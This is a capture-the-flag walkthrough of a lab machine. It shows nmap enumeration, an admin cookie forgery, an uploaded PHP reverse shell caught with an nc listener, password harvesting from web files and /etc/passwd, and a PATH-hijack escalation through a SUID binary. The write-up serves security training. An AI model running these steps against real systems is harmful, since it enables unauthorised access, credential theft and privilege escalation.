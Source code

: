 # Enumeration

```shell
└─$ sudo nmap -sC -sV 10.129.251.56 -o nmap.txt 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-18 17:30 CEST
Nmap scan report for 10.129.251.56
Host is up (0.037s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Welcome
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.15 seconds
└─$ 
```

Check web site with browser, map site with burpsuite and detect /cdn-cgi/login/script.js.
Go to http://10.129.251.56/cdn-cgi/login/ and login with guest user, go to upload site and right click on browser and inspect element (q) in order to change cookie session. Got to storage and there are a guest cookie information (role and user values from guest user) go to http://10/129.251.56/cdn-cgi/login/admin.php?content=accounts&id=1 and see values for admin cookie session, change this values on firefox storage cookie session (34322 and admin) now we got access to upload form.

Copy /usr/share/webshells/php/php-reverse-shell.php to temporary location and change IP / PORT Values on it.

Upload file and after file uploaded check with gobuster where is uploaded file.
Start nc -lvnp 1234 on local machine ready for reverse shell and go to http://10.129.251.56/uploads/php-reverse-shell.php

execute ```shell python3 -c 'import pty;pty.spawn("/bin/bash")'``` command to improve shell environment.
get passwords with cat *|grep -i passw* on /var/www/html/cdn-cgi/login 
get robert passwords on cat db.php
check file /etc/passwd 

Find SUID files
```shell
find / -group bugtracker 2>/dev/null
strings /usr/bin/bugtracker|grep cat
echo "/bin/sh" > /tmp/cat
export PATH=/tmp:$PATH
bugtracker
```

get flags on /root /home/robert directories.
